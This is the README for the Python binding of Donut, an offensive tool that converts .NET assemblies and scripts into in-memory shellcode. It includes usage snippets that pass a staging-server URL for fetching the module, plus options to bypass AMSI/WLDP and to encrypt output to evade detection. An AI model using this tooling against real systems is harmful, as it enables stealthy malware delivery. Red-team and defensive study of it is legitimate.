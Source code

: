 # Python Extension

A Python C extension is now available which allows you to dynamically generate donut shellcode in Python.

## Requirements

The extension has only been tested in Python 3.7, it shouldn't have any compatibility issues with older 3.X versions of Python.

It will ***not*** work in Python 2.x.

## Installing the Extension

(Once the extension has been published to PyPi)
```
pip3 install donut-shellcode
```

## Manually Compiling And Installing the Extension

```bash
git clone https://github.com/TheWover/donut && cd donut
pip3 install . # or python setup.py install
```

## Usage

The Python extension accepts the same parameters as the main donut executable.

Here's a minimalistic example of using the extension:

```python
import donut
shellcode = donut.create(file="naga.exe", params='https://172.16.164.1/')
```

The ```donut``` module exposes only one function ```create()```, which is used to generate shellcode and accepts both positional and keyword arguments.

The only required parameter the ```create()``` function needs is the ```file``` argument which accepts a path to the .NET EXE/DLL or VBS/JS file to turn into shellcode.

```python
import donut

shellcode = donut.create(
    file='naga.exe',         # .NET assembly, EXE, DLL, VBS, JS or XSL file to execute in-memory
    url='http://127.0.0.1',  # HTTP server that will host the donut module
    arch=1,                  # Target architecture : 1=x86, 2=amd64, 3=x86+amd64(default)
    bypass=3,                # Bypass AMSI/WLDP : 1=none, 2=abort on fail, 3=continue on fail.(default)
    cls='namespace.class',   # Optional class name.  (required for .NET DLL)
    method='method',         # Optional method or API name for DLL. (method is required for .NET DLL)
    params='arg1 arg2',      # Optional parameters or command line.
    runtime='version',       # CLR runtime version. MetaHeader used by default or v4.0.30319 if none available
    appdomain='name'         # AppDomain name to create for .NET. Randomly generated by default.
)
```

## Keywords

The following table lists key words for the create method.

<table>
  <tr>
    <th>Keyword</th>
    <th>Type</th>
    <th>Description</th>
  </tr>
  <tr>
    <td>file</td>
    <td>String</td>
    <td>The path of file to execute in memory. VBS/JS/EXE/DLL files are supported.</td>
  </tr>
  <tr>
    <td>arch</td>
    <td>Integer</td>
    <td>Indicates the type of assembly code to generate. 1=<code>DONUT_ARCH_X86</code> and 2=<code>DONUT_ARCH_X64</code> are self-explanatory. 3=<code>DONUT_ARCH_X84</code> indicates dual-mode that combines shellcode for both X86 and AMD64. ARM64 will be supported at some point.</td>
  </tr>
  <tr>
    <td>bypass</td>
    <td>Integer</td>
    <td>Specifies behaviour of the code responsible for bypassing AMSI and WLDP. The current options are 1=<code>DONUT_BYPASS_NONE</code> which indicates that no attempt be made to disable AMSI or WLDP. 2=<code>DONUT_BYPASS_ABORT</code> indicates that failure to disable should result in aborting execution of the module. 3=<code>DONUT_BYPASS_CONTINUE</code> indicates that even if AMSI/WDLP bypasses fail, the shellcode will continue with execution.</td>
  </tr>
  <tr>
    <td>compress</td>
    <td>Integer</td>
    <td>Indicates if the input file should be compressed. Available engines are 1=<code>DONUT_COMPRESS_NONE</code>, 2=<code>DONUT_COMPRESS_APLIB</code> to use the <a href="http://ibsensoftware.com/products_aPLib.html">aPLib</a> algorithm. For builds on Windows, the <a href="https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlcompressbuffer">RtlCompressBuffer</a> API is available and supports 3=<code>DONUT_COMPRESS_LZNT1</code>, 4=<code>DONUT_COMPRESS_XPRESS</code> and 5=<code>DONUT_COMPRESS_XPRESS_HUFF</code>.</td>
  </tr>
  <tr>
    <td>entropy</td>
    <td>Integer</td>
    <td>Indicates whether Donut should use entropy and/or encryption for the loader to help evade detection. Available options are 1=<code>DONUT_ENTROPY_NONE</code>, 2=<code>DONUT_ENTROPY_RANDOM</code>, which generates random strings and 3=<code>DONUT_ENTROPY_DEFAULT</code> that combines <code>DONUT_ENTROPY_RANDOM</code> with symmetric encryption.</td>
  </tr>
  <tr>
    <td>format</td>
    <td>Integer</td>
    <td>Specifies the output format for the shellcode loader. Supported formats are 1=<code>DONUT_FORMAT_BINARY</code>, 2=<code>DONUT_FORMAT_BASE64</code>, 3=<code>DONUT_FORMAT_RUBY</code>, 4=<code>DONUT_FORMAT_C</code>, 5=<code>DONUT_FORMAT_PYTHON</code>, 6=<code>DONUT_FORMAT_POWERSHELL</code>, 7=<code>DONUT_FORMAT_CSHARP</code> and 8=<code>DONUT_FORMAT_HEX</code>. On Windows, the base64 string is copied to the clipboard.</td>
  </tr>
  <tr>
    <td>exit_opt</td>
    <td>Integer</td>
    <td>When the shellcode ends, <code>RtlExitUserThread</code> is called, which is the default behaviour. Use 2=<code>DONUT_OPT_EXIT_PROCESS</code> to terminate the host process via the <code>RtlExitUserProcess</code> API. Use 3=<code>DONUT_OPT_EXIT_BLOCK</code> to not exit or cleanup and instead block indefinitely.</td>
  </tr>
  <tr>
    <td>thread</td>
    <td>Integer</td>
    <td>If the file is an unmanaged EXE, the loader will run the entrypoint as a thread. The loader also attempts to intercept calls to exit-related API stored in the Import Address Table by replacing those pointers with the address of the <code>RtlExitUserThread</code> API. However, hooking via IAT is generally unreliable and Donut may use code splicing / hooking in the future.</td>
  </tr>
  <tr>
    <td>oep</td>
    <td>String</td>
    <td>Tells the loader to create a new thread before continuing execution at the OEP provided by the user. Address should be in hexadecimal format.</td>
  </tr>
  <tr>
    <td>output</td>
    <td>String</td>
    <td>The path of where to save the shellcode/loader. Default is "loader.bin".</td>
  </tr>
  <tr>
    <td>runtime</td>
    <td>String</td>
    <td>The CLR runtime version to use for a .NET assembly. If none is provided, Donut will try reading from the PE's COM directory. If that fails, v4.0.30319 is used by default.</td>
  </tr>
  <tr>
    <td>appdomain</td>
    <td>String</td>
    <td>AppDomain name to create. If one is not specified by the caller, it will be generated randomly. If entropy is disabled, it will be set to "AAAAAAAA"</td>
  </tr>
  <tr>
    <td>cls</td>
    <td>String</td>
    <td>The class name with method to invoke. A namespace is optional. e.g: <var>namespace.class</td>
  </tr>
  <tr>
    <td>method</td>
    <td>String</td>
    <td>The method that will be invoked by the shellcode once a .NET assembly is loaded into memory. This also holds the name of an exported API if the module is an unmanaged DLL.</td>
  </tr>
  <tr>
    <td>params</td>
    <td>String</td>
    <td>List of parameters for the .NET method or DLL function. For unmanaged EXE files, a 4-byte string is generated randomly to act as the module name. If entropy is disabled, this will be "AAAA"</td>
  </tr>
  <tr>
    <td>unicode</td>
    <td>Integer</td>
    <td>By default, the <code>params</code> string is passed to an unmanaged DLL function as-is, in ANSI format. If set, param is converted to UNICODE.</td>
  </tr>
  <tr>
    <td>url or server</td>
    <td>String</td>
    <td>If the instance type is <code>DONUT_INSTANCE_HTTP</code>, this should contain the server and path of where module will be stored. e.g: https://www.staging-server.com/modules/</td>
  </tr>
  <tr>
    <td>modname</td>
    <td>String</td>
    <td>If the type is <code>DONUT_INSTANCE_HTTP</code>, this will contain the name of the module for where to save the contents of <code>mod</code> to disk. If none is provided by the user, it will be generated randomly. If entropy is disabled, it will be set to "AAAAAAAA"</td>
  </tr>
</table>

## Author

The Python extension was written by [@byt3bl33d3r](https://twitter.com/byt3bl33d3r)
